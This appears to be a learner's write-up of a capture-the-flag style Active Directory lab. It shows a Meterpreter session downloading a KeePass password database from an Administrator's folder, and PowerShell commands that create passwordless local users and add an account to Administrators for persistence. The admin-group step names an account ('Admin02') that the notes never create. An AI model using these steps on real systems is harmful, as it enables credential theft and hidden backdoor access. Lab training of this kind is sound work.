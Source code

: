 This is a straightforward example of targeting AD users. There is a lot more that can be done. It is essential to include user targeting in your exploitation methodology for AD. To answer the questions for this task you will need Keepass. It has been installed on the AttackBox for you so you can just search for and run the application. If you are using your own VM, on most Linux distros sudo apt install keepassx will work. Or you can download it from here. Also make sure to use the meterpreter download command to download the Keepass database to you host. If you are using Kali, make sure that the kali user owns the database file before you open it, otherwise it might lock the database and give you incorrect results.

Although persistence will only be discussed in the next room, now might be a good time to create a local account on THMSERVER1 and grant it admin rights so you have a good foothold. Since this is not really needed for the rest of the tasks, if you want to do this, you will need to do a bit of research on this yourself.

# Downloading and cracking

Download the File on meterpreter make sure you use **double \\*
~~~bash
meterpreter > download c:\\Users\\Administrator.ZA\\Documents\\PasswordDatabase.kdbx
[*] Downloading: c:\Users\Administrator.ZA\Documents\PasswordDatabase.kdbx -> /home/sloppy/PasswordDatabase.kdbx
[*] Downloaded 1.84 KiB of 1.84 KiB (100.0%): c:\Users\Administrator.ZA\Documents\PasswordDatabase.kdbx -> /home/sloppy/PasswordDatabase.kdbx
[*] download   : c:\Users\Administrator.ZA\Documents\PasswordDatabase.kdbx -> /home/sloppy/PasswordDatabase.kdbx
~~~

# Persistance 

Create a new local user to jump back on anytime
Just user
~~~bash
New-LocalUser -Name "User02" -Description "Description of this account." -NoPassword
Name    Enabled  Description
----    -------  -----------
User02  True     Description of this account.
~~~
User with Password
~~~bash
$Password = Read-Host -AsSecureString
New-LocalUser "User03" -Password $Password -FullName "Third User" -Description "Description of this account."
Name    Enabled  Description
----    -------  -----------
User03  True     Description of this account.
~~~

Assign admin permissions
~~~bash
Add-LocalGroupMember -Group "Administrators" -Member "Admin02"
~~~

Query to make sure you have done this correctly
~~~bash
net user User02
~~~
